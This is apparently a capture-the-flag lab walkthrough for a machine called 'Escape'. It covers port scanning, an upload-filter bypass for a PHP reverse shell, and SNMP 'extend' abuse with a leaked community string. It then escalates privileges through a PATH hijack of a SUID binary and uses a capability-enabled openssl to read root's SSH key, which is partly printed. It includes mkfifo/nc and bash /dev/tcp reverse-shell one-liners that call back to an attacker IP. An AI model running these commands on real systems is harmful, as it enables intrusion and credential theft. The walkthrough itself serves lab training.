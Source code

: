 # Escape

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.113
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 16:01 +08
Nmap scan report for 192.168.157.113
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

### Web Enumeration --> File Upload

Visiting both the websites shows nothing. The page source just shows this:

```markup
<html>
<head>

<style type="text/css">
 <!--
 body {
  background-image: url(jail.jpg);
 }
 -->
</style>

<title>Escape</title>
</head>
<body>
</body>
</html>
```

I ran a `feroxbuster` on both, and found a `/dev` endpoint on port 8080.

```
$ feroxbuster -u http://192.168.157.113:8080
[>-------------------] - 2s        89/30000   42/s    http://192.168.157.113:8080/dev 
[--------------------] - 0s         0/30000   0/s     http://192.168.157.113:8080/dev/uploads
```

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

This was a PHP page, so uploading PHP reverse shells is the priority, and there's a pretty good WAF. I tested loads of method of bypassing it, and this machine requires a combination of quite a few.&#x20;

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

* File Header Spoofing
* Double File Extension
* Content-Type Spoofing

We can get a reverse shell by loading the uploaded file:

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SNMP --> Docker Escape

We spawned in a Docker container. The `/var/backups` folder contained a `.conf` file for SNMP:

```
www-data@a7c367c2113d:/var/backups$ ls -la
total 20
drwxr-xr-x 1 root root 4096 Dec 21  2020 .
drwxr-xr-x 1 root root 4096 Nov 18  2020 ..
-rwxr--r-- 1 root root 7340 Dec  9  2020 .snmpd.conf
```

Here are the interesting bits:

```
###############################################################################
#
#  ACCESS CONTROL
#

                                                 #  system + hrSystem groups only
view   systemonly  included   .1.3.6.1.2.1.1
view   systemonly  included   .1.3.6.1.2.1.25.1

                                                 #  Full access from the local host
#rocommunity public  localhost
                                                 #  Default access to basic system info
 rocommunity public  default    -V systemonly
                                                 #  rocommunity6 is for IPv6
 rocommunity6 public  default   -V systemonly

 rocommunity 53cur3M0NiT0riNg
 
<TRUNCATED>
 extend    test1   /bin/echo  Hello, world!
 extend-sh test2   echo Hello, world! ; echo Hi there ; exit 35
 extend-sh test3   /bin/sh /tmp/shtest
<TRUNCATED>
```

Firstly, we have the password string required. Next, we have some sort of script execution within the machine. We can put a reverse shell there instead.&#x20;

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.227 21 >/tmp/f
```

Then, transfer this using `curl` and `chmod 777` it. To execute the shell, run this:

```bash
$ snmpbulkwalk -c 53cur3M0NiT0riNg -v2c 192.168.157.113 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

<figure><img src="../../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

### LogRotate SUID --> PATH Hijack

I checked for SUID binaries present within this machine:

```
Debian-snmp@escape:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/logconsole
```

`logconsole` was the one I didn't recognise.&#x20;

```
Debian-snmp@escape:/$ file /usr/bin/logconsole                                               
/usr/bin/logconsole: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d3102ed1d950486fed01c5ad8915511a12aea52d, for GNU/Linux 3.2.0, not stripped                                             
Debian-snmp@escape:/$ /usr/bin/logconsole --version                                          
                                                                                             
                                                                                             
 /$$                                                                       /$$               
| $$                                                                      | $$               
| $$  /$$$$$$   /$$$$$$   /$$$$$$$  /$$$$$$  /$$$$$$$   /$$$$$$$  /$$$$$$ | $$  /$$$$$$      
| $$ /$$__  $$ /$$__  $$ /$$_____/ /$$__  $$| $$__  $$ /$$_____/ /$$__  $$| $$ /$$__  $$     
| $$| $$  \ $$| $$  \ $$| $$      | $$  \ $$| $$  \ $$|  $$$$$$ | $$  \ $$| $$| $$$$$$$$     
| $$| $$  | $$| $$  | $$| $$      | $$  | $$| $$  | $$ \____  $$| $$  | $$| $$| $$_____/     
| $$|  $$$$$$/|  $$$$$$$|  $$$$$$$|  $$$$$$/| $$  | $$ /$$$$$$$/|  $$$$$$/| $$|  $$$$$$$     
|__/ \______/  \____  $$ \_______/ \______/ |__/  |__/|_______/  \______/ |__/ \_______/     
               /$$  \ $$                                                                     
              |  $$$$$$/                                                                     
               \______/                                                                      
                                                                                             
                                                                                                                                                                                          
1. About the Sytem                                                                           
2. Current Process Status                                                                    
3. List all the Users Logged in and out                                                      
4. Quick summary of User Logged in                                                           
5. IP Routing Table                                                                          
6. CPU Information                                                                           
7. To Exit                                                                                   
99. Generate the Report                                                                      
                                                                                             
Enter the option ==> 
```

It seems like a custom binary. As such, I ran it through `ltrace` to see what it was executing with each option.

```
__isoc99_scanf(0x56520b53f5c6, 0x7ffe428ae678, 0x7f317a52b8c0, 02                            
) = 1                                                                                        
printf("\033[0m")                                = 4                                         
putchar(10, 0x7ffe428abfd0, 0x56520b53f650, 0
)   = 10
system("/bin/ps aux"USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  0.8 159660  8976 ?        Ss   03:58   0:01 /sbin/init
```

it's executing `system` calls for each option. When I checked the last option, it runs `lscpu` without the full path:

```
__isoc99_scanf(0x56520b53f5c6, 0x7ffe428ae678, 0x7f317a52b8c0, 06                            
) = 1                                                                                        
printf("\033[0m")                                = 4                                         
putchar(10, 0x7ffe428abfd0, 0x56520b53f650, 0
)   = 10
system("lscpu"Architecture:        x86_64
```

This means we can create our own `lscpu` binary to run.&#x20;

```
$ cat lscpu 
bash -c 'bash -i >& /dev/tcp/192.168.45.227/443 0>&1'
```

Then, place this within `/tmp` and `chmod 777` it. Afterwards, change the PATH variable and run the `logconsole` binary to check for CPU information.

```bash
export PATH=/tmp:$PATH
```

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

### OpenSSL --> File Read

Within the `/opt` directory, there's an `openssl` binary that only `tom` can execute:

```
tom@escape:/opt/cert$ ls -la
total 724
drwxr-xr-x 2 root root   4096 Dec  9  2020 .
drwxr-xr-x 4 root root   4096 Dec  9  2020 ..
-rwx------ 1 root root   1245 Dec  9  2020 certificate.pem
-rwx------ 1 root root   1704 Dec  9  2020 key.pem
-rwxr-x--- 1 tom  tom  723944 Dec  9  2020 openssl
```

We are also given some certs and keys. I first checked this `openssl` binary using `getcap`, finding that it has all capabilities enabled, meaning that we can read any file:

```
tom@escape:/dev/shm$ getcap /opt/cert/openssl
/opt/cert/openssl =ep
```

We can then use this to read the private SSH key of `root`:

```
tom@escape:/dev/shm$ /opt/cert/openssl enc -in "/root/.ssh/id_rsa"
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwwvvVIS3//uz+Mpg24l51p48akveZgI8bDQDun7y9BKhRDWg
GzIzCpt7NcVWVN2llo9KOL3c3EZZxGOaTbzpINZxSWj3/WWBYhNqmKQRsgJzbPv2
kOe/XwWw8Bt9TuFAd7GUbylpbyHOES7siXFUd/XP503ehllp/JFp0G+2YPkYPGbi
0EISJcNFPNnRlXIQs3Fte0QqFiPE9nPycSMqvGz8a9OtaPGlmOZ3wP56jxxIBT0I
SrkfuLGw7b9VN05jJ33EMtDGRyyDLljFXv7t5OktkC0omumXyWG2KRRe3Avn4RMI
<TRUNCATED>
```

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>
